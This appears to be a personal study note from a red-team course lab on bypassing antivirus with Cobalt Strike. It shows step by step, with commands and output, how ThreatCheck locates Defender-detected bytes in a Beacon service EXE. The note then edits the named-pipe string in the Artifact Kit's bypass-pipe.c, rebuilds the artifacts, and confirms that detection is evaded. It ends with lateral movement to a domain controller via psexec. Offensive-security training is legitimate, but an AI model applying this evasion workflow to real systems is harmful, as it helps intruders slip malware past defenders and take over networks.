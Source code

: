 ```yaml
---
creation date: September 26th 2022
last modified date: September 26th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Bypassing Antivirus]]  
___

## Description:  

### In CobaltStrike
Cobalt Strike has two main flavours of artifact. Compiled (EXEs and DLLs); and scripts (PowerShell, VBA, SCT, etc). Each workflow uses a particular artifact - for instance, `jump psexec64` uses a compiled x64 service binary and `jump winrm64` uses x64 PowerShell.

Sometimes you will see commands fail.

The issue t is obvious if you read the error (not always easy within the XML): **"This script contains malicious content and has been blocked by your antivirus software"**; and error code `225` is **"Operation did not complete successfully because the file contains a virus or potentially unwanted software."**

`Get-MpThreatDetection` is a Windows Defender cmdlet that can also show detected threats.

```
beacon> remote-exec winrm dc-2 Get-MpThreatDetection | select ActionSuccess, DomainUser, ProcessName, Resources

ActionSuccess  : True
DomainUser     : 
ProcessName    : Unknown
Resources      : {file:_C:\Windows\c8e8647.exe, file:_\\dc-2\ADMIN$\c8e8647.exe}
PSComputerName : dc-2
RunspaceId     : 19a06a6d-7a99-4df2-926b-415b8de45b04

ActionSuccess  : True
DomainUser     : DEV\nlamb
ProcessName    : C:\Windows\System32\wsmprovhost.exe
Resources      : {amsi:_C:\Windows\System32\wsmprovhost.exe}
PSComputerName : dc-2
RunspaceId     : 19a06a6d-7a99-4df2-926b-415b8de45b04
```

Cobalt Strike provides two "kits" that allow us to modify the Beacon artifacts, obviously with the aim of avoiding detection. The **Artifact Kit** modifies the compiled artifacts and the **Resource Kit** modifies script-based artifacts.

You can also use `net helpmsg 225` to see that it was blocked by antivirus.

Before we start messing with changing the payload template, we need an idea of which part(s) Defender is detecting as malicious.  [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck) takes an input file which it splits into parts, then scans each part to try and find the smallest component that triggers a positive detection.

### Artifact Kit

^0b0bf7

Generate a Windows Service EXE and save it to `C:\Payloads`, then scan it with ThreatCheck.

```
C:\>C:\Tools\ThreatCheck\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Payloads\beacon-smb-svc.exe
[+] Target file size: 289280 bytes
[+] Analyzing...

[...snip...]

[!] Identified end of bad bytes at offset 0x44E70
00000000   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000010   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000020   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000030   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000040   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000050   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000060   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000070   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000080   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000090   5F 73 65 74 5F 69 6E 76  61 6C 69 64 5F 70 61 72   _set_invalid_par
000000A0   61 6D 65 74 65 72 5F 68  61 6E 64 6C 65 72 00 00   ameter_handler··
000000B0   77 69 6E 64 69 72 00 25  73 5C 53 79 73 74 65 6D   windir·%s\System
000000C0   33 32 5C 25 73 00 72 75  6E 64 6C 6C 33 32 2E 65   32\%s·rundll32.e
000000D0   78 65 00 00 00 00 00 00  00 00 00 00 00 00 00 00   xe··············
000000E0   25 63 25 63 25 63 25 63  25 63 25 63 25 63 25 63   %c%c%c%c%c%c%c%c
000000F0   25 63 4D 53 53 45 2D 25  64 2D 73 65 72 76 65 72   %cMSSE-%d-server

[*] Run time: 8.91s

```

ThreatCheck attempts to find the end of the "bad bytes" and produces a hex dump up from that point. So the content closest to the end is what we want to focus on. It looks like the detection is coming from the string `%c%c%c%c%c%c%c%c%cMSSE-%d-server`, which is a good starting point.

Searching for where **MSSE** appears in the kit, we find it's in `bypass-pipe.c`.

```
root@kali:/opt/cobaltstrike/artifact-kit# grep -r MSSE
src-common/bypass-pipe.c:       sprintf(pipename, "%c%c%c%c%c%c%c%c%cMSSE-%d-server", 92, 92, 46, 92, 112, 105, 112, 101, 92, (int)(GetTickCount() % 9898));
```

The `dist-pipe` artifact will create a named pipe, read the shellcode over that pipe, and then executes it.

This line attempts to generate a pseudo-random pipe name. It seems as though it's already semi-obfuscated because of the slightly weird formatting. It produces a string that would look something like: `\\.\pipe\MSSE-1866-server`, where `1866` is from `GetTickCount` (which is the number of milliseconds elapsed since the computer started).

So let's just change the strings **MSSE** and **server** to something different, such as:

```
sprintf(pipename, "%c%c%c%c%c%c%c%c%cRasta-%d-pipe", 92, 92, 46, 92, 112, 105, 112, 101, 92, (int)(GetTickCount() % 9898));
```

To build these changes, run the `build.sh` script.
```
root@kali:/opt/cobaltstrike/artifact-kit# ./build.sh
```

Within the `dist-pipe` directory you'll see a new list of artifacts that have been built, along with an `artifact.cna` file. The CNA file contains some Aggressor that tells Cobalt Strike to use these artifacts inside of the default ones.
```
root@kali:/opt/cobaltstrike/artifact-kit# ls -l dist-pipe/
total 2108
-rwxr-xr-x 1 root root 312334 Mar 17 09:25 artifact32big.dll
-rwxr-xr-x 1 root root 310286 Mar 17 09:25 artifact32big.exe
-rwxr-xr-x 1 root root  41998 Mar 17 09:25 artifact32.dll
-rwxr-xr-x 1 root root  39950 Mar 17 09:25 artifact32.exe
-rwxr-xr-x 1 root root 311822 Mar 17 09:25 artifact32svcbig.exe
-rwxr-xr-x 1 root root  41486 Mar 17 09:25 artifact32svc.exe
-rwxr-xr-x 1 root root 311808 Mar 17 09:26 artifact64big.exe
-rwxr-xr-x 1 root root 312320 Mar 17 09:26 artifact64big.x64.dll
-rwxr-xr-x 1 root root  41472 Mar 17 09:26 artifact64.exe
-rwxr-xr-x 1 root root 313344 Mar 17 09:26 artifact64svcbig.exe
-rwxr-xr-x 1 root root  43008 Mar 17 09:26 artifact64svc.exe
-rwxr-xr-x 1 root root  41984 Mar 17 09:25 artifact64.x64.dll
-rw-r--r-- 1 root root   2031 Mar 17 09:25 artifact.cna
```

Copy the whole `dist-pipe` directory to `C:\Tools\cobaltstrike\ArtifactKit`.

```
C:\Tools\cobaltstrike>pscp -r root@kali:/opt/cobaltstrike/artifact-kit/dist-pipe .
artifact32big.exe         | 303 kB | 303.0 kB/s | ETA: 00:00:00 | 100%
artifact64svcbig.exe      | 306 kB | 306.0 kB/s | ETA: 00:00:00 | 100%
artifact32svcbig.exe      | 304 kB | 304.5 kB/s | ETA: 00:00:00 | 100%
artifact64big.exe         | 304 kB | 304.5 kB/s | ETA: 00:00:00 | 100%
artifact64.exe            | 40 kB |  40.5 kB/s | ETA: 00:00:00 | 100%
artifact64.x64.dll        | 41 kB |  41.0 kB/s | ETA: 00:00:00 | 100%
artifact.cna              | 1 kB |   2.0 kB/s | ETA: 00:00:00 | 100%
artifact32svc.exe         | 40 kB |  40.5 kB/s | ETA: 00:00:00 | 100%
artifact32.exe            | 39 kB |  39.0 kB/s | ETA: 00:00:00 | 100%
artifact64svc.exe         | 42 kB |  42.0 kB/s | ETA: 00:00:00 | 100%
artifact32.dll            | 41 kB |  41.0 kB/s | ETA: 00:00:00 | 100%
artifact64big.x64.dll     | 305 kB | 305.0 kB/s | ETA: 00:00:00 | 100%
artifact32big.dll         | 305 kB | 305.0 kB/s | ETA: 00:00:00 | 100%
```

In Cobalt Strike, go to **Cobalt Strike > Script Manager** and you'll see that this is already loaded (as mentioned previously). There's no need to load it again, but just know this is where you can load/reload CNA files.

To test the new templates, generate the same service EXE payload as before and scan it with ThreatCheck.

```
C:\Tools>C:\Tools\ThreatCheck\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Payloads\beacon-smb-svc-dist-pipe.exe
[+] No threat found!
[*] Run time: 0.89s
```

Now when we try to jump to `dc-2`, the payload is not detected by AV and we get a Beacon.

```
beacon> jump psexec64 dc-2 smb
Started service c1d61c7 on dc-2
[+] established link to child beacon: 10.10.17.71
```



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 26th 2022 (12:54 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
